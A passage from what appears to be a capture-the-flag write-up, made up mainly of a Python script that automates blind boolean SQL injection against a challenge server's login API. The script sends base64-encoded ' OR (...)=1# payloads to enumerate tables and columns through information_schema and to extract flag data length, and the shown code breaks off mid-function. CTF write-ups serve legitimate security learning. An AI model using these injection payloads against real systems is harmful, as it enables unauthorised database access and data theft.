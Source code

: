 So, to make it easier, player create automation script to dump the database.

```python
from urllib.parse import quote
import requests
import concurrent.futures
from pwn import *
from base64 import b64encode

opt = {
    "debug": 0,
    "url": "http://tokyo.ctf.protergo.party:10002"
}

proxies = {}
context.log_level = 'INFO'

if opt["debug"]: proxies = {"http": "http://0:8080"}

def sql_injection(_context, which = ""):
    DATA_LENGTH = 1 # The length of token in the database
    MAX_WORKERS = 35 # Total threads
    
    global ROW
    ROW = 0
    def get_token():
        sess = requests.Session()
        sess.get(opt["url"])

        token = sess.get(f'{opt["url"]}/api/token', proxies=proxies).json()['data']['token']
        return [sess, token]

    def payload(payload_):
        print((f"' OR ({payload_})=1#"))
        payload_ = b64encode((f"1' OR ({payload_})=1#").encode())
        return payload_

    def get_length(arguments):
        global ROW
        length, _context, which = arguments
        _context = _context.lower()
        if(_context == 'table'):
            #TABLE
            SQL_PAYLOAD = f"SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT {ROW}, 1"
        elif(_context == 'column'):
            # COLUMN
            ROW = 1
            SQL_PAYLOAD = f"SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='{which}' LIMIT {ROW}, 1"
        else:
            #DATA
            SQL_PAYLOAD = f"SELECT LENGTH({which}) FROM flag LIMIT {ROW}, 1"

        [sess, token] = get_token()
        res = sess.post(f"{opt['url']}/api/login", data={"username": payload(f'SELECT CASE WHEN ({SQL_PAYLOAD})={(length)} THEN 1 ELSE 0 END'), "password":b64encode(b"nyxmare"), "token": token}, proxies=proxies)
 
        if '"success":true' in res.text:
            truth = 1
        else:
            truth = 0

```

[^1]: https://dev.mysql.com/doc/refman/8.0/en/comments.html